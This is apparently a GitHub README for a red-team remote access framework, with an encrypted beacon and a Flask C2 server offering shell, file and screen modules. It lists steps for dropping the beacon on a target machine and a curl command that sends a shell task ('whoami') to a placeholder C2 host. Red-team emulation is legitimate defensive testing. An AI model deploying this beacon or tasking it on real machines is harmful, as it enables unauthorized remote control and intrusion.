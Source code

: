 # simulated-adversary-control-agent-deployment

### Overview
Deploy a controlled, encrypted software agent designed to simulate real world attacker behavior without risk or persistence. Leverage the **Red Team Beacon Framework**, a modular encrypted beacon + C2 simulation stack for red team operations and adversary emulation. Built for secure testing of endpoint defenses, dynamic payload staging, and encrypted tasking.

- Validate defensive controls
- Identify detection gaps
- Simulate encrypted malware tasking

### Features
-  AES-256 encrypted configuration
-  HTTPS beacon polling
-  Modular agent actions (shell, file, screen)
-  No hardcoded infrastructure — all dynamic
-  Custom tasks delivered via secure backend
-  Flask-based tasking server
-  UID-based target tracking
-  GUI-based key & config builder (rat_config_studio.py)


### Perfect For
- CISOs preparing tabletop exercises  
- Security teams validating EDR/NDR alerting  
- Managed security firms offering offensive services  
- Internal red/purple teams staging custom payloads
  
### Deployment Stack:
```
├── rat_config_studio.py
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
├── c2_server.py
```
### How to use

**generate config & key on host machine**
```
python_rat_config_studio.py
generates rat.key, rat_config.json.enc
 Click “Generate AES-256 Key”
 Save the key securely
 Input your C2 URL, interval, and enabled modules
 Click “Encrypt Config”
 Deliver `.enc` file with corresponding `.key` to the beacon loader
 Use “Decrypt & View” to inspect any `.enc` file with the matching key
```
**run the c2 server**
```
python c2_server.py
```
**Server listens on:**
```
GET /checkin/<uid> – Polling beacon
POST /task/<uid> – Set task
POST /submit/<uid> – Receive result
```
**drop the following files onto target machine**
```
├── beacon.py
├── beacon_task_handler.py
├── config_decrypt.py
├── rat_config.json.enc
├── rat.key
```
**On Target Machine Run**
```
python beacon.py
```
**open cmd prompt and send a task**
```
curl -k -X POST https://<hosting_c2_server>:8080/task/<UID> ^
  -H "Content-Type: application/json" ^
  -d '{"module": "shell", "args": "whoami"}'
or use a one-liner with a task.json file you create
curl -k -X POST http://<hosting_c2_server>:8080/task/<UID> -H "Content-Type: application/json" -d @task.json
```
### Contributor to this project
https://github.com/filipas123 

**NOTE:**  this toolset is interchangeable meaning the c2_url, interval and enabled modlues can modified.  What you see here is a simple payload simulation and you can change the module to be a payload you wish to test.  You must make the changes in the **beacon_task_handler.py** yourself!
## Disclaimer
**This tool is provided for ethical red team operations, threat simulations, and research. Do not use against systems you do not own or manage.**
